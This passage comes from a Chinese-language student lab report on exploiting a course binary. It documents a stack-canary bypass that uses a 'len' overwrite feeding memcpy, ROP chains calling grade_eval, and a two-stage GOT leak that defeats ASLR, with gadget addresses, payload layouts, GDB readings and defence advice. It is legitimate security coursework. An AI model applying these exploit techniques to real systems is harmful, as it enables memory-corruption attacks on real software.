| 56–63 | `0x401636` | `ret`，调整栈位置 |
| 64–71 | `0x401a33` | `pop rdi; ret` |
| 72–79 | `0` | 设置 `edi=0` |
| 80–87 | `0x4016e0` | `exit@plt` |

GDB 中观察到的关键数据如下：

| 观察点 | GDB 读数 |
| --- | --- |
| `input` 的 `ret` 前 `rsp` | `0x7fffffffdd08` |
| `[rsp]` | `0x401a33` |
| `pop rdi` 后 `rdi` / `rip` | `4` / `0x401a34` |
| `grade_eval` 入口 `edi` | `4` |
| `grade_eval` 入口 `rsp` | `0x7fffffffdd28`（8 mod 16） |
| `exit@plt` 入口 `rsp` | `0x7fffffffdd48`（8 mod 16） |
| 进程退出状态 | `0` |

程序首先进入 `pop rdi; ret`，将参数设置为 4，随后调用 `grade_eval`，输出目标字符串。函数返回后，ROP 链继续执行，将参数设置为 0 并调用 `exit@plt`，最终退出状态为 0。

运行现场见图 7-1。



## 八、第 7 题：Canary 绕过与防御

### 8.1 Stack Protector 的实现

Stack Protector 会在函数栈帧中保存一个 Canary 值，并在函数返回前检查它是否发生变化。如果 Canary 与原值不一致，程序就会调用 `__stack_chk_fail` 终止运行。

`dark-log` 的 `input` 函数中可以看到相关指令：

```text
mov rax, QWORD PTR fs:0x28
mov QWORD PTR [rbp-0x8], rax
...
mov rax, QWORD PTR [rbp-0x8]
xor rax, QWORD PTR fs:0x28
je  ...
call __stack_chk_fail
```

`fs:0x28` 保存的是 TLS 中的 Canary 值，函数进入时将其保存到 `[rbp-0x8]`，返回前再进行比较。检查不通过时调用 `__stack_chk_fail`。

本实验使用的 x86-64 glibc 环境中，Canary 的最低有效字节为 `0x00`。`strcpy` 读取源字符串时遇到 NUL 就会停止复制；目标缓冲区中原有的 NUL 不会让它停止，它仍然按照源字符串继续复制。如果通过字符串操作覆盖到 Canary，由于其最低字节为 NUL，源字符串会在该位置终止，无法继续复制后面的控制数据。

`gets` 遇到换行或 EOF 时结束读取，`read` 最多读取指定字节数，`memcpy` 按指定长度复制；这些接口都不会因为遇到输入中的 NUL 字节就自动停止。

本程序中，Canary 位于 `rbp-0x8`，处于局部缓冲区和保存的 `rbp` 之间。如果直接通过缓冲区溢出覆盖返回地址，就必须先经过 Canary，最终会触发保护检查。

由于 `puts` 按 NUL 终止字符串处理，输出会在遇到第一个 `0x00` 时停止，并在末尾添加换行。本次三次运行中，泄漏地址的低 6 字节均未出现 `0x00`，因此驱动程序读取 6 字节，并补上两个高位零字节恢复完整地址。如果泄漏内容提前遇到 NUL，输出会被截断，驱动程序需要重新尝试。

### 8.2 log_frame 的栈布局

`input` 函数分配了 `0x120` 字节的栈空间。根据反汇编和 GDB 中的内存布局，各对象的位置如下：

| 对象 | 输入偏移 | 相对 `rbp` |
| --- | --- | --- |
| `expression[128]` | 0–127 | `rbp-0x120` |
| `logMsg[128]` | 128–255 | `rbp-0xa0` |
| `len`（int） | 256–259 | `rbp-0x20` |
| `pad[8]` | 260–267 | `rbp-0x1c` |
| 编译器填充 | 268–279 | `rbp-0x14` 至 `rbp-0x9` |
| Canary | 280–287 | `rbp-0x8` |
| 保存的 `rbp` | 288–295 | `rbp` |
| 返回地址 | 296–303 | `rbp+8` |

`expression` 的长度为 128 字节，后面依次是 `logMsg` 和 `len`。Canary 位于输入偏移 280 处。

如果只通过 `gets` 连续写入数据，想要到达返回地址就必须经过 Canary。但本题还有后续的 `memcpy` 操作，可以通过修改 `len` 改变实际写入的位置。

### 8.3 len 与 memcpy

`gets` 之后，程序根据 `len` 计算 `memcpy` 的目的地址：

```c
dest = (rbp - 0x120 + 0x80) + len;
memcpy(dest, expression, 128);
```

整理后：

```text
dest = rbp - 0xa0 + len
```

这里的 `len` 位于 `expression` 之后，可以被输入覆盖，同时又参与计算下一次复制的目的地址。因此，可以通过修改 `len`，让后续的 `memcpy` 从另一个位置开始写入。

### 8.4 初始 Payload 构造

令 `memcpy` 的目的地址等于返回地址所在位置：

\[
rbp-0xa0+len=rbp+8
\]

得到：

\[
len=0xa8=168
\]

即 4 字节小端序表示为 `a8 00 00 00`。

这样，`memcpy` 就从 `rbp+8` 开始写入，直接覆盖返回地址及其后的栈内容，而原来的 Canary 位于 `rbp-8`，不会被这次复制操作覆盖。

最初使用的单阶段 Payload 长度为 260 字节，布局如下：

| 偏移 | 内容 | 作用 |
| --- | --- | --- |
| 0–7 | `0x4018a3` | `pop rdi; ret` |
| 8–15 | `4` | 设置 `edi=4` |
| 16–23 | `0x401526` | `ret`，调整栈对齐 |
| 24–31 | `0x401677` | `grade_eval` |
| 32–39 | `0` | 初始版本的返回落点 |
| 40–127 | `0x90` | 填充 |
| 128–255 | `0x90` | 填充 `logMsg` 区域 |
| 256–259 | `a8 00 00 00` | 设置 `len=168` |

输入通过 `/tmp/p_can.bin` 二进制文件传递。`gets` 不会在输入中的 NUL 处停止，后续 `memcpy` 则按照固定的 128 字节长度复制。

`gets` 在偏移 260 处补充 `\0`，距离偏移 280 处的 Canary 还有 20 字节，不会直接覆盖 Canary。

### 8.5 GDB 验证与 Canary 对照实验

在初始单阶段 Payload 的 `memcpy` 执行后，GDB 中观察到：

```text
canary[fs:0x28] = 0x780f3c0689177900
[rbp-0x8]       = 0x780f3c0689177900
len             = 168 (0xa8)
memcpy dest     = 0x7fffffffdd78
```

其中，`rbp=0x7fffffffdd70`，目的地址正好是 `rbp+8`，Canary 槽与 TLS 中保存的原值一致。

为了确认 Canary 本身确实能够检测到覆盖，又使用两个独立临时输入进行了正反对照，未修改正式 Payload 和课程二进制。

| 组别 | 输入长度 | `len` | `fs:0x28` | `[rbp-8]` | 结果 |
| --- | --- | --- | --- | --- | --- |
| 正常组 | 260 字节 | 168 | `0xb99a1230f9b4da00` | `0xb99a1230f9b4da00` | 检查通过 |
| 对照组 | 281 字节 | 0 | `0x9752eae37c485900` | `0x9752eae37c480041` | `__stack_chk_fail`，SIGABRT |

对照组在偏移 280 写入 `0x41`，`gets` 读取 281 字节后，在偏移 281 自动补充 `\0`。按小端序，原始 Canary 字节为：

```text
00 59 48 7c e3 ea 52 97
```

覆盖后变为：

```text
41 00 48 7c e3 ea 52 97
```

因此，Canary 的低两个字节由 `00 59` 变成 `41 00`，数值从 `0x9752eae37c485900` 变为 `0x9752eae37c480041`。

对照组将 `len` 设为 0 后，`memcpy` 的目的地址为 `rbp-0xa0`，复制长度固定为 128 字节，写入范围为 `rbp-0xa0` 至 `rbp-0x21`，只覆盖 `logMsg`，不会到达 `rbp-0x8` 的 Canary。因此，Canary 的异常来自前面的 `gets` 写入，而不是后续的 `memcpy`。GDB 在 `__stack_chk_fail@plt` 停下，回溯为 `__stack_chk_fail ← input 0x4017f3`。

正常组和对照组的完整日志保存在 `task07-canary/canary-control/`。两组数据来自不同运行，Canary 数值和栈地址会随进程变化。

初始单阶段 Payload 的执行结果是：Canary 检查通过，`input` 返回后进入 ROP 链，成功调用 `grade_eval(4)` 并输出目标字符串。随后，`grade_eval` 返回，链尾的 `ret` 从偏移 32 处取出 `0` 装入 `rip`，程序在地址 0 取指时触发 SIGSEGV。目标字符串输出成功发生在 `grade_eval` 内，异常终止发生在它返回之后。

原始验收会话的关键读数如下：

| 观察点 | GDB 读数 |
| --- | --- |
| `rbp` | `0x7fffffffdd70` |
| `canary[fs:0x28]` | `0x780f3c0689177900` |
| `[rbp-0x8]` | `0x780f3c0689177900` |
| `len` | `168`（`0xa8`） |
| `memcpy` 目的地址 | `0x7fffffffdd78`（`rbp+8`） |
| `grade_eval` 入口 `edi` | `4` |
| 进程退出 | SIGSEGV，shell 记录状态为 `139` |

这说明最初的方案已经实现 Canary 绕过和目标函数调用，但返回地址尚未安排正常的退出路径。随后对 ROP 链进行了进一步调整。

运行现场见图 8-1。



### 8.6 防御建议

针对本题中的问题，可以从以下几个方面改进程序：

1. **限制输入长度：** 使用 `fgets` 等带有长度限制的输入接口替代 `gets`。
2. **检查长度变量：** 对 `len` 进行合法范围检查，避免直接使用未经验证的值计算 `memcpy` 的目的地址。
3. **检查复制范围：** 确保复制操作的目标地址和长度均处于合法内存区域内。
4. **启用编译器保护：** 使用 Stack Protector 等机制检测栈帧中的异常修改。

调整结构体字段的位置，也可以避免 `len` 被当前这条溢出路径覆盖，但这只能消除本题中的一种利用方式，不能代替输入和内存边界检查。

### 8.7 正常退出路径的探索与最终实现

初始 Payload 已经能够绕过 Canary 并输出目标字符串，但程序最终发生 SIGSEGV。为了实现正常退出，我先后尝试了几种不同的控制流安排。

#### （1）最初的三种方案

| 尝试方式 | 结果 |
| --- | --- |
| 输出后接 `leave; ret` | 保存的栈帧已被覆盖，程序进入循环，120 秒后由外部终止 |
| 返回 `main+0x1c` | `main` 的 Canary 被覆盖，触发 `__stack_chk_fail`，进程 SIGABRT |
| 重新进入 `__libc_start_main` | 参数现场不完整，`init` 被填充数据覆盖，最终发生 SIGSEGV |

返回 `main` 的方案中，GDB 观察到 `memcpy` 执行后，`main` 的 Canary 槽与 TLS 中的原值不一致，因此在返回前触发保护机制。

重新进入 `__libc_start_main` 的尝试中，虽然成功进入了启动函数，但 `rcx` 等参数寄存器没有得到正确设置，`init` 的值为 `0x9090909090909090`，最终在 glibc 启动函数内部发生崩溃。

#### （2）关闭 ASLR 后的固定地址验证

为了先验证调用 libc `exit(0)` 的方法，我检查了当前环境中的 libc 符号：

| 符号 | GLIBC 2.35 中的偏移 |
| --- | --- |
| `__libc_start_main` | `0x29dc0` |
| `exit` | `0x45580` |

使用 `setarch -R` 单独关闭测试进程的 ASLR 后，libc 基址固定为 `0x7ffff7c00000`，因此 `exit` 的运行时地址为：

```text
0x7ffff7c45580
```

在原有 ROP 链的基础上，将 `grade_eval` 后面的返回落点改为：

```text
pop rdi; ret
0
ret
0x7ffff7c45580
```

这样，`grade_eval` 返回后将 `rdi` 设置为 0，再进入 libc 的 `exit`。

GDB 中观察到的关键数据为：

```text
rip = 0x7ffff7c45580
rdi = 0
rsp = 0x7fffffffd008
rsp mod 16 = 8
```

继续执行后，GDB 显示：

```text
[Inferior 1 (...) exited normally]
```

普通终端运行的退出状态也为 0。随后在关闭 ASLR 的条件下连续运行三次，均正常退出。

这个方案证明了调用 libc `exit(0)` 的控制流可行，但地址依赖固定的 libc 加载位置，不能直接用于默认开启 ASLR 的环境。

将固定地址版本直接用于默认 ASLR 环境时，程序仍然能够输出目标字符串，但随后发生 SIGSEGV，shell 记录状态为 139。检查当次运行的 libc 映射后发现，实际加载基址已经发生变化，原来写入 Payload 的 `exit` 地址不再对应当前进程中的函数入口。因此，固定地址方案只能用于关闭 ASLR 的验证环境，不能直接用于默认配置。

#### （3）默认 ASLR 下的两阶段方案

为了避免在 Payload 中写死 libc 的绝对地址，我进一步利用 `dark-log` 中已有的 `__libc_start_main@GOT`，通过两阶段输入获取当前进程的 libc 地址。

第一阶段利用 ROP 调用 `puts@plt`，输出 GOT 表项中保存的 `__libc_start_main` 运行时地址。随后调用 `fflush(NULL)` 刷新输出，并重新进入 `input`，等待第二阶段输入。

第一阶段的主要调用顺序如下：

```text
pop rdi; ret
0x601ff0                  # __libc_start_main@GOT
ret
puts@plt
pop rdi; ret
0                         # fflush(NULL)
ret
fflush@plt
ret
input                     # 重新进入 input
```

其中，`0x601ff0` 是 `__libc_start_main@GOT` 的地址，`puts@plt` 用于输出其中保存的函数指针，`fflush@plt` 确保泄漏内容及时写入管道，最后重新进入 `input` 读取第二阶段 Payload。

Python 驱动程序从输出中读取泄漏的 6 个地址字节，并补上两个高位零字节，还原 `__libc_start_main` 的运行时地址。根据当前 GLIBC 2.35 的符号偏移计算：

\[
libc\_base=leak-0x29dc0
\]

\[
exit\_addr=libc\_base+0x45580
\]

第二阶段再根据计算出的地址生成新的 ROP 链：

```text
pop rdi; ret
4                         # grade_eval(4)
ret
grade_eval
pop rdi; ret
0                         # exit(0)
ret
exit_addr                 # 当前进程的 libc exit 地址
```

第二阶段仍然使用 `len=168`，因此 Canary 绕过方式没有改变。不同之处在于，`exit` 地址不再固定写入，而是由第一阶段的泄漏结果动态计算。

两阶段 Payload 均通过 Python 驱动程序以二进制数据写入标准输入。第一阶段负责泄漏地址并重新进入 `input`，第二阶段负责调用 `grade_eval(4)` 和 `exit(0)`。

#### （4）默认 ASLR 下的验证结果

本次测试没有关闭系统 ASLR，`/proc/sys/kernel/randomize_va_space` 的值为 `2`。

首次运行成功后，又连续启动三个独立进程进行验证，三次得到的 libc 地址均不同，但根据泄漏结果计算出的 `exit` 地址都能正常使用。

| 测试 | `__libc_start_main` 泄漏地址 | libc 基址 | `exit` 地址 | 退出状态 |
| --- | --- | --- | --- | --- |
| 1 | `0x747d80229dc0` | `0x747d80200000` | `0x747d80245580` | 0 |
| 2 | `0x7a9fb2629dc0` | `0x7a9fb2600000` | `0x7a9fb2645580` | 0 |
| 3 | `0x7dc5dde29dc0` | `0x7dc5dde00000` | `0x7dc5dde45580` | 0 |

三次运行均输出：

```text
Enter a log message:

Hope A will be your grade!

Shell return code: 0
```

运行结果见图 8-2。



此外，正式 `dark-log` 和原始 `payload_canary.py` 的 SHA-256 与实验开始前的记录一致，没有被本次探索修改。新的两阶段驱动脚本、候选 Payload 和运行日志单独保存在：

`task07-canary/reproduction_normal_exit/candidate-exit0-aslr/`

最终方案仍依赖当前课程二进制中的固定 Gadget、GOT 地址，以及 GLIBC 2.35 的符号偏移。更换二进制或 libc 版本后，需要重新核对这些地址和偏移。

至此，第七题不仅实现了 Canary 绕过和目标函数调用，还通过两阶段地址泄漏解决了默认 ASLR 下的 libc 地址变化问题，程序最终正常退出，shell 记录的状态为 0。
## 九、实验总结

### 9.1 七项任务总览

| 任务 | 研究内容 | 核心观察 |
| --- | --- | --- |
| 1 | `input` 栈帧 | `call` 保存返回地址，`push rbp` 保存旧帧指针，`leave` 和 `ret` 完成栈帧恢复与返回 |
| 2 | 不同长度输入 | 20 个 A 覆盖保存的 `rbp`，32 个 A 覆盖返回地址并在 `ret` 处发生段错误 |
| 3 | 执行 `malware` | 覆盖返回地址，跳入 `eval` 中的 `system` 调用序列，执行 `command_buf` 中的命令 |
| 4 | `main` 机器码 | 三条指令分别占 1、3、5 字节，单步执行时 `RIP` 的变化与指令长度一致 |
| 5 | 栈空间执行 | 普通栈不可执行，但课程程序建立的固定映射具有 RWX 权限，可以执行栈上的机器码 |
| 6 | ROP | 在 NX 条件下利用错位解码得到 `pop rdi; ret`，通过 ROP 链调用 `grade_eval` |
| 7 | Canary | 修改 `len` 控制 `memcpy` 的目的地址，保留 Canary；通过两阶段 ROP 泄漏 libc 地址并动态调用 `exit(0)`，在默认 ASLR 下正常退出 |

### 9.2 实验中的几点认识

第 2 题的 20 个 A 已经改写了保存的 `rbp`，但返回地址没有变化，程序仍然正常返回；直到 32 个 A 覆盖返回地址，才在 `ret` 处崩溃。仅凭程序是否正常退出，不能判断是否发生了越界写，还需要结合内存中的实际变化进行分析。

第 3 题最初的 Payload 依赖 `strcpy` 返回后 `rdi` 仍保留 `command_buf` 地址这一残留值；后来改为跳入 `eval` 中的 `mov edi,0x6030d0` 序列，由程序显式设置 `system` 的参数，不再依赖 caller-saved 寄存器的原有值。

第 5 题第一次调用 `grade_eval` 时，`printf` 内部的 `movaps` 因栈未对齐而崩溃。通过 GDB 检查函数入口的 `rsp` 和故障地址，确认入口需要满足 8 mod 16，最终通过调整栈上的返回地址解决。第 6 题也遇到了相同的 ABI 对齐要求，因此在 ROP 链中加入额外的 `ret`。

第 6 题的 `pop rdi; ret` 不是从正常指令边界得到的，而是从 `__libc_csu_init` 尾部的 `41 5f c3` 中，从第二个字节开始解码得到的。对应字节 `5f c3` 可以解释为 `pop rdi; ret`，这也让我对 x86-64 变长指令编码有了更直观的认识。

第 7 题没有直接覆盖 Canary，而是修改 `len`，使 `memcpy` 的目的地址从 `rbp+8` 开始，因而没有改写 `input` 栈帧中的 Canary，函数返回前的检查仍然通过。后续又通过正反对照，验证了直接破坏 Canary 会触发 `__stack_chk_fail`。

在最初的第七题 Payload 中，虽然已经成功调用 `grade_eval(4)`，但函数返回后会跳转到空地址，导致程序发生 SIGSEGV。为解决这个问题，我先尝试了几种恢复正常控制流的方案，随后改为利用 `puts@plt` 泄漏 `__libc_start_main@GOT` 中的运行时地址，再根据 libc 符号偏移计算 `exit` 的实际地址。最终通过两阶段输入完成了 `grade_eval(4)` 和 `exit(0)` 的调用。在默认 ASLR 开启的情况下，连续三次运行均正常退出。

### 9.3 实验中的局限与注意事项

- 第 7 题最终方案依赖两阶段 Python 驱动程序：第一阶段泄漏 libc 地址，第二阶段根据泄漏结果生成并发送新的 Payload。因此，它不是一个可以直接使用固定字节文件完成全部操作的单阶段 Payload。
- 第 7 题的动态地址计算基于当前实验环境的 GLIBC 2.35 符号偏移。更换 libc 版本或课程二进制后，需要重新核对符号偏移、GOT 地址和 Gadget，不能直接沿用当前结果。
- 第 7 题已在 `randomize_va_space=2` 的默认 ASLR 环境下进行三次独立验证，均输出目标字符串并以状态码 0 退出。这些结果说明方案在当前实验环境中能够稳定运行，但不能据此认为它适用于所有 libc 版本和编译配置。
- 第 5 题的固定栈地址由课程程序的映射配置决定；第 6、7 题使用的普通栈地址受 ASLR 影响，不同运行中的绝对地址可能不同。
- Canary 的具体数值由运行时生成，不能将某次 GDB 读取到的数值当作固定值使用。